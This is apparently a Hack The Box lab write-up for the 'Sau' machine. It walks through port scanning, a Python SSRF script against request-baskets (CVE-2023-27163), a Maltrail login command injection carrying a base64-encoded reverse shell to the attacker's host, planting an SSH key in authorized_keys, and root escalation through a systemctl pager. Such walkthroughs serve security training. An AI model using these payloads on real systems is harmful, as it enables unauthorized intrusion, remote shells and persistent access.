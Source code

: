 ```yaml
---
date: 2025-04-12
categories: [Linux, Easy]
---
```


![Sau](https://labs.hackthebox.com/storage/avatars/1ea2980b9dc2d11cf6a3f82f10ba8702.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [sau123](https://app.hackthebox.com/users/201596)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---








- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.
	
	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.11.224 -oG scan
	/opt/extractports scan
	nmap -p22,55555 -sCV -Pn 10.10.11.224 -oN ports
	```

	![image](https://github.com/user-attachments/assets/6b6ce761-fcd8-4af9-a1d7-836ab39913f1)

- I start entering the web page and I observe that its CSM is a request-backets version 1.2.1. Searching for information about this I find a vulnerability contained in the [CVE-2023-27163](https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2023-27163) in which it allows to execute a Server-Side Request Forgery (SSRF) making a POST request.



![image](https://github.com/user-attachments/assets/940fe5a1-c6ff-456f-b37d-7ac00ab25aea)

- I created a script to make the calls and exploit this vulnerability.
- When trying to find open ports internally I notice that port 80 takes a long time to answer so I guess it is open internally.
	
	```python
	#!/usr/bin/python
	import requests
	import sys
	import signal
	import time
	import string
	from pwn import *
	
	
	def def_handler(sig, frame):
	        print("\n\n[!]Exiting....\n")
	        sys.exit(1)
	
	signal.signal(signal.SIGINT, def_handler)
	
	def SSRF():
	    p1 = log.progress("Post request")
	    p1.status("Starting")
	    url = "http://10.10.11.224:55555/api/baskets/n0svw6j1"
	    data= {
	        "forward_url": "http://127.0.0.1",
	        "proxy_response": True,
	        "insecure_tls": False,
	        "expand_path": False,
	        "capacity": 200
	    }
	    header= {"Content-Type": "application/json"}
	    response = requests.post(url, json = data, headers = header)
	    print(response.text)
	
	
	if __name__ == '__main__':
	        SSRF()
	
	#Then I have to log in to the website http://10.10.11.224:55555/n0svw6j1
	```

- Instead of using the ip provided by HTB I decide to use localhosts (127.0.0.1) and with this I can see its content.

	![image](https://github.com/user-attachments/assets/f95094ff-9329-4f02-834a-d2fe1b63d802)

- I don't end up seeing the content correctly but I can see at the bottom that you are running a [Mailtrail v0.53](https://securitylit.medium.com/exploiting-maltrail-v0-53-unauthenticated-remote-code-execution-rce-66d0666c18c5). In searching for information about this one I find a vulnerability that allows to execute commands remotely (RCE).
- In order to exploit this vulnerability we will have to send in the username field of the login request the command we want to execute.

	![image](https://github.com/user-attachments/assets/ee170fa3-0467-4166-a1d4-880c0cb68284)

- I decide to run a reverse shell using python3. First converting the payload to base64 to reverse it directly from the victim machine. For this I use this [page](https://www.revshells.com/).

	```python
	cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjE0Iiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigic2giKSc=
	
	
	username=;`echo%20"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjE0Iiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigic2giKSc%3D"%20|%20base64%20-d%20|%20sh`
	```

- Once I get an interactive shell as the user puma, I can read the first flag from the system.

	![image](https://github.com/user-attachments/assets/9a8827cf-58db-45f9-8780-3267df74fadf)

- For convenience, I generate an ssh key on my machine and add it to the authorized_keys file on the victim machine. This allows me to connect to the machine in a simpler way.
	
	```python
	ssh-keygen -f key
	echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDDZ8EmdbLXlHYnVjJ/UUFjskwlLg8z590ZXoGV57aAJ root@rufo" >> /home/puma/.ssh/authorized_keys
	
	ssh -i key puma@10.10.11.224
	```

- When querying as the user puma the commands that I can run as root without providing a password, I find systemctl

	![image](https://github.com/user-attachments/assets/be2f015e-856b-4cfc-982e-731f5524ca0c)

- When searching [GTFOBins](https://gtfobins.github.io/gtfobins/sysctl/#suid) for ways to escalate my privileges using this command I can't seem to find one that fits perfectly.
- When executing the command I see that depending on the size of our window it may not show all its output and it stays as the vim editor. This allows me to execute commands and be able to launch a shell as the user running the program. In this case root.
- With this new terminal as the root user I can read the senguda flag of the system.

  ![image](https://github.com/user-attachments/assets/12beb4bc-db6c-4c28-bbfc-d1898a45fe38)	
